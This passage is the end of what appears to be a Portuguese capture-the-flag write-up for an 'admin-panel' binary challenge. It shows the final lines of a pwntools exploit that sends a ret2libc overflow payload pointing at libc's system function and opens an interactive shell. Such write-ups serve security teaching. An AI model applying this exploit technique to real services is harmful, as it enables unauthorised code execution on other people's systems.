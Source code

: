 ```python
payload += p64(system_offset + libc_entrypoint)

p.recvuntil(b'2 or 3:')
p.sendline(b'2')
p.recvuntil(b'wrong:')
p.sendline(payload)

p.interactive()
```

![admin-panel10](/images/davi-post-pwn/admin-panel/admin-panel10.png)

É isso. Espero que tenham gostado :)
